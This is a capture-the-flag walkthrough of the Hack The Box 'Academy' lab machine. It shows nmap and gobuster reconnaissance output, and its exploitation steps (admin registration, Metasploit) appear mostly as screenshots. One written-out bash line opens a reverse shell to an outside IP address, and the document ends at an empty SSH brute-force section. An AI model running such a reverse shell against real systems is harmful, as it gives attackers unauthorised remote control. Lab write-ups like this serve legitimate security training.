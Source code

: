# NMAP
```CSS
▶ nmap -Pn -sS -p- -T4 --min-rate 1000 10.10.10.215

Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-03 10:48 IST
Nmap scan report for 10.10.10.215
Host is up (0.25s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
33060/tcp open  mysqlx

Nmap done: 1 IP address (1 host up) scanned in 70.45 seconds
```
```CSS
nmap -sC -sV -T4 --min-rate 1000 -p 22,80,33060 10.10.10.215

Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-03 10:56 IST           
Nmap scan report for 10.10.10.215                                                    
Host is up (0.24s latency).                                                          
                                                                                     
PORT      STATE SERVICE VERSION                                                      
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                                                                       
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)            
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)           
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)         
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))                    
|_http-server-header: Apache/2.4.41 (Ubuntu)                              
|_http-title: Did not follow redirect to http://academy.htb/              
33060/tcp open  mysqlx?                                                              
| fingerprint-strings:                                                               
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"                                                               
|_    HY000                                                                          
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service 
:                                                                                    
SF-Port33060-TCP:V=7.94%I=7%D=8/3%Time=64CB3A88%P=x86_64-pc-linux-gnu%r(NU
SF:LL,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GenericLines,9,"\x05\0\0\0\x0b\x
SF:08\x05\x1a\0")%r(GetRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(HTTPOpt
SF:ions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(RTSPRequest,9,"\x05\0\0\0\x0b\
SF:x08\x05\x1a\0")%r(RPCCheck,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSVersi
SF:onBindReqTCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSStatusRequestTCP,2B
SF:,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fIn
SF:valid\x20message\"\x05HY000")%r(Help,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%
SF:r(SSLSessionReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\
SF:x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(TerminalServerCookie,
SF:9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TLSSessionReq,2B,"\x05\0\0\0\x0b\x0
SF:8\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\
SF:x05HY000")%r(Kerberos,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SMBProgNeg,9,
SF:"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(X11Probe,2B,"\x05\0\0\0\x0b\x08\x05\x
SF:1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY00
SF:0")%r(FourOhFourRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LPDString,9
SF:,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LDAPSearchReq,2B,"\x05\0\0\0\x0b\x08
SF:\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x
SF:05HY000")%r(LDAPBindReq,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SIPOptions,
SF:9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LANDesk-RC,9,"\x05\0\0\0\x0b\x08\x0
SF:5\x1a\0")%r(TerminalServer,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NCP,9,"\
SF:x05\0\0\0\x0b\x08\x05\x1a\0")%r(NotesRPC,2B,"\x05\0\0\0\x0b\x08\x05\x1a
SF:\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000"
SF:)%r(JavaRMI,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(WMSRequest,9,"\x05\0\0\
SF:0\x0b\x08\x05\x1a\0")%r(oracle-tns,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(
SF:ms-sql-s,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(afp,2B,"\x05\0\0\0\x0b\x08
SF:\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x
SF:05HY000")%r(giop,9,"\x05\0\0\0\x0b\x08\x05\x1a\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
                                                                                     
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.41 seconds
```

# HTTP-80
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/b666dcb7-0daf-4fde-992b-31407d91f5a7)

# Directory and File Brute-Force
```CSS
▶ gobuster dir --url http://academy.htb --extensions php --wordlist raft-medium-directories.txt

===============================================================                                                                                                            
Gobuster v3.5                                                                                                                                                              
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)                                                                                                              
===============================================================                                                                                                            
[+] Url:                     http://academy.htb                                                                                                                            
[+] Method:                  GET
[+] Threads:                 5                                                                                                                                             
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt                                                               
[+] Negative Status codes:   404                                                                                                                                           
[+] User Agent:              gobuster/3.5                                                                                                                                  
[+] Extensions:              php                                                                                                                                           
[+] Timeout:                 10s                                                                                                                                           ===============================================================                                                                                                            
2023/08/03 11:30:32 Starting gobuster in directory enumeration mode                                                                                                        
===============================================================                                                                                                            
/images               (Status: 301) [Size: 311] [--> http://academy.htb/images/]                                                                                           
/admin.php            (Status: 200) [Size: 2633]                                                                                                                           
/register.php         (Status: 200) [Size: 3003]                                                                                                                           
/login.php            (Status: 200) [Size: 2627]                                                                                                                           
/config.php           (Status: 200) [Size: 0]                                                                                                                              
/home.php             (Status: 302) [Size: 55034] [--> login.php]
/index.php            (Status: 200) [Size: 2117]          
```
# Register as User
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/d1a301dc-c230-4f25-9a2b-fdd0e5f0a0fb)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/bfda213b-da7f-426f-a939-5eaed9228bc3)
# Login
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/9c5f7937-5861-41b4-b118-f4bdee5ff6c7)
# User Dashboard
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/6d632e69-0a50-4e7d-8180-c6c8fdbe0510)
# Register as Admin
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/56fc49e3-0fc6-4bd8-85b9-6afbac9d0c2a)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/6b7b2ffb-4497-4b45-8b42-f83fb7859704)
# Login
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/c792546c-9aee-4a27-b9b4-d17a32e138ee)
# Admin Page
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/46732760-b24d-4c69-a088-5afd136e69b1)
# Error Page
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/ad4c8c30-b309-41a8-93c7-da658733df47)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/dd0a38a4-f0d6-40e1-b913-857e2cd68eff)
# Searchsploit
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/179e8926-8ed4-442b-9ffc-ddfd004b63d4)
# Metasploit
```CSS
▶ sudo msfdb run
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/cac2a074-606e-4cf1-a32b-6d73255d6e8f)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/ee9ba94e-1287-4ea6-a4d1-573b14348e51)
# Reverse Shell
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/a0470a49-5b21-4d54-92bf-ed1723809e95)
# Shell Upgrade
```CSS
bash -c 'bash -i >& /dev/tcp/10.10.14.85/9001 0>&1'
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/2a984763-6024-4ff5-b6f8-f37a64b505f7)
# Searching for Info
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/509032b0-9215-4e5c-bf8b-455c1c7094e3)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/ec3a54d8-6cb2-4fb2-a7cb-7fed9f81c1d4)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/881c6f7d-590c-4624-99dc-de223e6d9169)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/4e8fcdc6-55e1-45f8-ae8f-8f76dd7ded72)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/973201b0-4f2b-42e8-95c5-af98ede1c6d2)
# List of Users
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/bf5fe75b-fcff-4f91-bbf2-115df6a5d616)
# SSH Brute-Force
```CSS

```
